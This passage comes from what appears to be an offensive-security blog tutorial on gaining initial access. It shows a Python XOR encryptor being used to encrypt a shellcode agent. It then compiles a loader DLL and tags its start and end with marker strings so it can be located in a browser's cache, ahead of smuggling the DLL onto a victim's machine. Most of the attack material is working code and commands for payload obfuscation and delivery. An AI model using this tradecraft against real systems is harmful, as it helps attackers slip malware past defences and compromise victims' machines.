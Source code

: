 ```python

    # Write the encrypted data to the output file
    with open(output_file, 'wb') as f:
        f.write(encrypted_data)

    print(f"File encrypted successfully and saved as {output_file}")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Usage: python xor_encrypt.py <input_file> <output_file> <key>")
        sys.exit(1)

    input_file = sys.argv[1]
    output_file = sys.argv[2]
    key = sys.argv[3].encode('utf-8')  # The key must be a string, encoded to bytes

    encrypt_file(input_file, output_file, key)
```
```shell
deb@debian:~/Desktop/blog/InitialAccess/post/assets$ python3 ../code/encryptor-xor.py --help
Usage: python xor_encrypt.py <input_file> <output_file> <key>
deb@debian:~/Desktop/blog/InitialAccess/post/assets$ python3 ../code/encryptor-xor.py SHINY_EAR.bin agent.bin_enc rexkyris
File encrypted successfully and saved as agent.bin_enc
deb@debian:~/Desktop/blog/InitialAccess/post/assets$
```
{: .nolineno }
make sure the encrypted shellcode filename `agent.bin_enc`, `xor` key and webserver `ip address` are set correctlly.

now we need to compile the `loader.cpp` as dll

![Desktop View](9.png){: width="1019" height="544" }

after compiling loader.cpp, there is one last thing we need to do, we will append two `identifiers` to the `start` and the 
`end` of our dll, these two identifiers will be used when trying to find our dll in the browser's cache folder because all the cached
files start with this prefix `f_` and we can't rely on file sizes. 
we will add these two identifiers `startdll` and `enddll`

```shell
deb@debian:~/Desktop/blog/InitialAccess/post/code$ sed -i "1s/^/startdll/" loader.dll 
deb@debian:~/Desktop/blog/InitialAccess/post/code$ echo -n "enddll" >> loader.dll
deb@debian:~/Desktop/blog/InitialAccess/post/code$ head -c 256 loader.dll; echo 
startdllMZ����@��	�!�L�!This program cannot be run in DOS mode.
$mL�)-n�)-n�)-n�bUm�.-n�bUk��-n�bUj�9-n�)-n�(-n��j�&-n��m�;-n�bUo�.-n�)-o�D-n��k�`-n�گk�(-n�گn�(-n�گl�(-n�Rich)-n�
deb@debian:~/Desktop/blog/InitialAccess/post/code$ tail -c 256 loader.dll; echo 
�� �(�����ȠРؠ������� �(�0�8�@�H�P�X�h�p������(�H�h����������������`������0�X�����ح�(�P������8�`���� �H�p����0���ȡ�(�enddll
deb@debian:~/Desktop/blog/InitialAccess/post/code$
```
{: .nolineno }
now the `loader.dll` is complete, next, we will see how we can smuggle it to the victim's machine
